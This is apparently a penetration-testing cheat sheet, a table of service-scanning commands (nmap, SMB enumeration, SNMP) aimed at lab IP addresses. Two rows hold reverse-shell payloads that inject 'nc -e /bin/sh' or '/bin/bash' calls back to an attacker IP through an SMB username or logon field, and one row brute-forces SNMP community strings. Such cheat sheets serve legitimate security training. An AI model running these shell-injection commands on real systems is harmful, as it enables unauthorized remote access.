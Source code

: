 | **Command**                                                                  | **Description**                               |
| ---------------------------------------------------------------------------- | --------------------------------------------- |
| **Service Scanning**                                                         |                                               |
| `nmap 10.129.42.253`                                                         | Run nmap on an IP                             |
| `nmap -sV -sC -p- 10.129.42.253`                                             | Run an nmap script scan on an IP              |
| `locate scripts/citrix`                                                      | List various available nmap scripts           |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40`                       | Run an nmap script on an IP                   |
| `netcat 10.10.10.10 22`                                                      | Grab banner of an open port                   |
| `smbmap`                                                                     | List SMB Shares                               |
| `smbclient -N -L \\\\10.129.42.253`                                          | List SMB Shares                               |
| `smbclient \\\\10.129.42.253\\users`                                         | Connect to an SMB share                       |
| ``smbclient //10.10.10.3/tmp -U "./=`nohup nc -e /bin/sh 10.10.14.24 443`"`` | smbclient shell                               |
| ``logon "/= `nc '10.10.14.213' 4443 -e /bin/bash`"``                         | Exploit help command from connected SMB share |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`                   | Scan SNMP on an IP                            |
| `onesixtyone -c dict.txt 10.129.42.254`                                      | Brute force SNMP secret string                |